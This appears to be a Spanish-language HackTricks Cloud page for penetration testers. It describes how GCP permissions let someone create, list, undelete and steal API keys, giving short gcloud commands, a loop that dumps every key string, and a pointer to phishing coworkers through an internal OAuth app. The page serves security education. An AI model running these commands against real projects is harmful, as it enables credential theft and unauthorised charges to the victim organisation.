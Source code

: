 # GCP - Apikeys Privesc

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Apikeys

Los siguientes permisos son útiles para crear y robar claves de API, nota esto de la documentación: _Una clave de API es una cadena cifrada simple que **identifica una aplicación sin ningún principal**. Son útiles para acceder a **datos públicos de forma anónima**, y se utilizan para **asociar** solicitudes de API con tu proyecto para cuotas y **facturación**._

Por lo tanto, con una clave de API puedes hacer que la empresa pague por tu uso de la API, pero no podrás escalar privilegios.

Para más información sobre las claves de API, consulta:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

### Fuerza bruta en el acceso a la clave de API <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Como es posible que no sepas qué APIs están habilitadas en el proyecto o las restricciones aplicadas a la clave de API que encontraste, sería interesante ejecutar la herramienta [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) y comprobar **a qué puedes acceder con la clave de API.**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Este permiso permite **crear una clave de API**:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
Puede encontrar un script para automatizar la [**creación, explotación y limpieza de un entorno vulnerable aquí**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
Tenga en cuenta que por defecto los usuarios tienen permisos para crear nuevos proyectos y se les otorga el rol de Propietario sobre el nuevo proyecto. Por lo tanto, un usuario podría **crear un proyecto y una clave API dentro de este proyecto**.
{% endhint %}

### `apikeys.keys.getKeyString`, `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Estos permisos permiten **listar y obtener todas las apiKeys y obtener la Clave**:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
Puede encontrar un script para automatizar la [**creación, explotación y limpieza de un entorno vulnerable aquí**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete`, `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Estos permisos te permiten **listar y regenerar api keys eliminadas**. La **API key se proporciona en la salida** después de que se realiza el **undelete**:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Crear una aplicación OAuth interna para hacer phishing a otros trabajadores

Consulta la siguiente página para aprender cómo hacer esto, aunque esta acción pertenece al servicio **`clientauthconfig`** [según la documentación](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing.md" %}
[gws-google-platforms-phishing.md](../../workspace-security/gws-google-platforms-phishing.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
